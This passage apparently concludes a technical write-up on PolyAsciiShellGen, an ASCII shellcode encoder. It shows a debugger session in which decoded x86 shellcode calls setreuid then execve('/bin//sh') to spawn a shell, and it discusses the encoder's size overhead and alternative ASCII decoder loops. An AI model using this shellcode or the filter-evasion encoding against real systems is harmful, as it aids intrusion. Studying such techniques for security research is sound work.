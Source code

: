 Then, the demo breaks at the first bytes of the decoded
shellcode, the ESP and the EIP register are crossing at the
same address and the shellcode will be executed.

```text
Temporary breakpoint 6, 0xffffdcdc in ?? ()
=> 0xffffdcdc:  xor    eax,eax
   0xffffdcde:  xor    ebx,ebx
   0xffffdce0:  xor    ecx,ecx
   0xffffdce2:  xor    edx,edx
   0xffffdce4:  mov    al,0xd0
   0xffffdce6:  int    0x80
   0xffffdce8:  xor    eax,eax
   0xffffdcea:  mov    al,0xb
   0xffffdcec:  push   ecx
   0xffffdced:  push   0x68732f2f
   0xffffdcf2:  push   0x6e69622f
   0xffffdcf7:  mov    ebx,esp
   0xffffdcf9:  push   ecx
   0xffffdcfa:  mov    edx,esp
   0xffffdcfc:  push   ebx
   0xffffdcfd:  mov    ecx,esp
   0xffffdcff:  int    0x80
   0xffffdd01:  nop
   0xffffdd02:  nop
   0xffffdd03:  nop
eip            0xffffdcdc       0xffffdcdc
esp            0xffffdcdc       0xffffdcdc
process 28699 is executing new program: /usr/bin/bash
warning: Could not load shared library symbols for linux-vdso.so.1.
Do you need "set solib-search-path" or "set sysroot"?
[Inferior 1 (process 28699) exited normally]
```

## conclusion

The ASCII shellcode generation algorithm implements by PolyAsciiShellGen is not
very efficient, as show in the debugging session for each group of 4 bytes
from the original shellcode, 15 or 10 bytes are generated to decode the
original shellcode. So if the shellcode to encode is very large in size the
resulting ASCII shellcode will be very big, this is more or less a factor 3.
If the target buffer where to store the payload is large it is not problem
but when it is small this type of ASCII shellcode can't be used. The solution to
circumvent this constraint is to implement a decoder loop with ASCII opcodes and
encode the original shellcode with the reverse algorithm. There are many
implementations of this idea which implement
[base16, base64 or a derivate decoder
loop [5]](http://reverse-system.re/repo/shellcode/ascii-shellcode/x86-base64-ASCII-shellcode-shellcoders-handbook.pdf)
in full ASCII machine code. The result is much more elegant than the
*Caezar* ASCII shellcodes. But, the technique shows here was the first
publicly documented and the technique of the *bridge building* is FUN and
original.
